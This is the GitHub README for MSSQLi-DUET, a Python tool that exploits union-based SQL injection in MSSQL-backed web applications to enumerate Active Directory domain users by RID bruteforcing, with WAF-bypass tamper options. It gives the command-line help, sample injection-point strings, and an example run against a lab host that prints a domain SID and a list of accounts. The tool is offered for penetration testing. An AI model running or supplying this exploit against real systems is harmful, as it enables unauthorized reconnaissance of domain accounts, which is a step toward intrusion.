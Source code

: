 # MSSQLi-DUET - MSSQL Injection-based Domain User Enumeration Tool

SQL injection script for MSSQL that extracts domain users from an Active Directory environment based on RID bruteforcing. Supports various forms of WAF bypass techniques through the implementation of SQLmap tamper functions. Additional tamper functions can be incorporated by the user depending on the situation and environment.

Currently only support union-based injection. Planning to add other techniques later. More samples and test cases are required to fully test tool's functionality, feedback and comments are greatly welcomed and appreciated!

## Usage
### Script Help
```
python3 mssqli-duet.py -h
usage: mssqli-duet.py [-h] -i INJECTION [-e ENCODING] -t TIME_DELAY -rid
                      RID_RANGE [-ssl SSL] -p PARAMETER [-proxy PROXY]
                      [-o OUTFILE] -r REQUEST_FILE

MSSQLi-DUET - MSSQL (Injection-based) Domain User Enumeration Tool

optional arguments:
  -h, --help            show this help message and exit
  -i INJECTION, --injection INJECTION
                        Injection point. Provide only the data needed to
                        escape the query.
  -e ENCODING, --encoding ENCODING
                        Type of encoding: unicode, doubleencode, unmagicquotes
  -t TIME_DELAY, --time_delay TIME_DELAY
                        Time delay for requests.
  -rid RID_RANGE, --rid_range RID_RANGE
                        Hypenated range of RIDs to bruteforce. Ex: 1000-1200
  -ssl SSL, --ssl SSL   Add flag for HTTPS
  -p PARAMETER, --parameter PARAMETER
                        Vulnerable parameter
  -proxy PROXY, --proxy PROXY
                        Proxy connection string. Ex: 127.0.0.1:8080
  -o OUTFILE, --outfile OUTFILE
                        Outfile for username enumeration results.
  -r REQUEST_FILE, --request_file REQUEST_FILE
                        Raw request file saved from Burp

Prepare to be enumerated!
```

### How to use
After identifying a union-based SQL injection in an application, copy the raw request from Burp Suit using the 'copy to file' feature.

Pass the saved request to DUET with the `-r` flag. Specify the vulnerable parameter and well as the point of injection. As an example, if the parameter "element" is susceptible to SQL injection, `-p` will be "element". DUET will build out all the SQL injection queries automatically, but specification for the initial injection needs to be provided. Meaning, if the injection occurs because of a single apostrophe after the parameter data, this is what would be specified for the `-i` argument. 
```
Ex: test' 
    test'))
    test")"
```

### Example
```
python3 mssqli-duet.py -i "carbon'" -t 0 -rid 1000-1200 -p element -r testrequest.req -proxy 127.0.0.1:8080
[+] Collected request data:
Target URL = http://192.168.11.22/search2.php?element=carbon
Method = GET
Content-Type = applcation/x-www-form-urlencoded


[+] Determining the number of columns in the table...
        [!] Number of columns is  3
[+] Determining column type...
        [!] Column type is null
[+] Discovering domain name...
        [+] Domain = NEUTRINO
[+] Discovering domain SID...
S-1-5-21-4142252318-1896537706-4233180933-

[+] Enumerating users...
NEUTRINO\HYDROGENDC01$
NEUTRINO\DnsAdmins
NEUTRINO\DnsUpdateProxy
NEUTRINO\HELIUM$
NEUTRINO\BORON$
NEUTRINO\BERYLLIUM$
NEUTRINO\aeinstein
NEUTRINO\Organization Management
NEUTRINO\Recipient Management
NEUTRINO\View-Only Organization Management
NEUTRINO\Public Folder Management
```

## References 
https://blog.netspi.com/hacking-sql-server-procedures-part-4-enumerating-domain-accounts/
